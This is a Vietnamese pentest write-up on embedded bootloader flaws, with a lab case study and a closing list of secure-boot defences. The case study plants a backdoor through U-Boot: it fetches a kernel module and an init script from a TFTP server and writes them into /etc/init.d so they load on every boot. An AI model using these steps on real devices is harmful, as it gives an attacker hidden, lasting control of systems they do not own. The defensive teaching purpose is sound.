

## 1. Mục lục
- [1. Mục lục](#1-mục-lục)
- [2. Các lỗ hổng bootloader phổ biến](#2-các-lỗ-hổng-bootloader-phổ-biến)
- [3. Case Study - Penetration Test](#3-case-study---penetration-test)
  - [3.1. Mục tiêu](#31-mục-tiêu)
  - [3.2. Môi trường lab](#32-môi-trường-lab)
- [4. Triển khai Bootloader Attack](#4-triển-khai-bootloader-attack)
  - [4.1. Chuẩn bị payload](#41-chuẩn-bị-payload)
  - [4.2. Upload lên TFTP server](#42-upload-lên-tftp-server)
  - [4.3. Khai thác bootloader](#43-khai-thác-bootloader)
  - [4.4. Kết quả](#44-kết-quả)
- [5. Giải pháp khắc phục](#5-giải-pháp-khắc-phục)
  - [5.1. Secure Boot Technologies](#51-secure-boot-technologies)
  - [5.2. Best Practices](#52-best-practices)

Bài viết này phân tích các lỗ hổng bảo mật trong bootloader của thiết bị nhúng và trình bày một case study về cách khai thác để cài đặt backdoor.

## 2. Các lỗ hổng bootloader phổ biến

| Lỗ hổng | Mô tả | Khai thác |
|---------|-------|-----------|
| **Console port access** | Console port kết nối qua endpoint web công khai | Truy cập bootloader trực tiếp |
| **Thiếu authentication** | Không có xác thực trong bootloader | Thay đổi cấu hình, tải mã độc |
| **Unsigned code execution** | Cho phép thực thi code không ký | Chèn và thực thi backdoor |
| **Firmware update không an toàn** | Cơ chế cập nhật firmware yếu | Cập nhật firmware chứa malware |
| **Pre-secure boot access** | Truy cập trước khi secure boot | Cài đặt malware trước bảo vệ |

## 3. Case Study - Penetration Test

### 3.1. Mục tiêu

Trong quá trình pentest, phát hiện endpoint `http://vexpress.arm:8000` kết nối tới console của thiết bị nhúng.

**Target:** Cài đặt backdoor để có shell access và liệt kê processes.

### 3.2. Môi trường lab



## 4. Triển khai Bootloader Attack

### 4.1. Chuẩn bị payload

Tạo kernel module backdoor và init script:

```bash:S60kernel
#!/bin/sh
case "$1" in
    start)
        insmod /var/processenum.ko &
        [ $? = 0 ] && echo "OK" || echo "FAIL"
        ;;
    stop)
        rmmod processenum &
        [ $? = 0 ] && echo "OK" || echo "FAIL"
        ;;
    restart|reload)
        "$0" stop; "$0" start
        ;;
    *)
        echo "Usage: $0 {start|stop|restart}"
        exit 1
esac
exit $?
```

Files cần thiết:
```bash
root@kai:~/Desktop/backdoor-files# ls
S60kernel  processenum.ko
```

### 4.2. Upload lên TFTP server

```bash
tftp tftp.server
tftp> put S60kernel
Sent 392 bytes in 0.0 seconds
tftp> put processenum.ko  
Sent 124012 bytes in 0.0 seconds
```

### 4.3. Khai thác bootloader

Truy cập console qua web endpoint và thực hiện:

**Bước 1:** Cấu hình network
```bash
=> dhcp
=> setenv serverip 192.39.37.4
```

**Bước 2:** Download files vào memory
```bash
=> tftp 0x63000000 processenum.ko
Bytes transferred = 123320 (1e1b8 hex)

=> tftp 0x65000000 S60kernel  
Bytes transferred = 370 (172 hex)
```

**Bước 3:** Ghi vào filesystem
```bash
=> ext4write mmc 0:1 0x63000000 /var/processenum.ko 01e1b8
123320 bytes written in 421 ms

=> ext4write mmc 0:1 0x65000000 /etc/init.d/S60kernel 0x172
370 bytes written in 375 ms

=> reset
```

### 4.4. Kết quả

Device reboot và backdoor tự động chạy với **PID 903**.


_Backdoor đã được cài đặt thành công_

## 5. Giải pháp khắc phục

### 5.1. Secure Boot Technologies

| Solution | Mô tả |
|----------|-------|
| **ARM Trusted Firmware** | Quản lý boot process an toàn |
| **U-Boot Secure Boot** | Xác thực digital signature |
| **OP-TEE** | Trusted Execution Environment |
| **Tianocore EDK II** | UEFI secure boot cho ARM |

### 5.2. Best Practices

1. **Disable Console Access** trong production
2. **Implement Code Signing** - chỉ chạy signed code
3. **Secure Firmware Update** với encryption/authentication
4. **Boot Chain Verification** từ hardware root of trust
5. **Access Control** cho bootloader commands

**Lưu ý:** Triển khai secure boot từ giai đoạn thiết kế để đảm bảo hiệu quả tối đa.
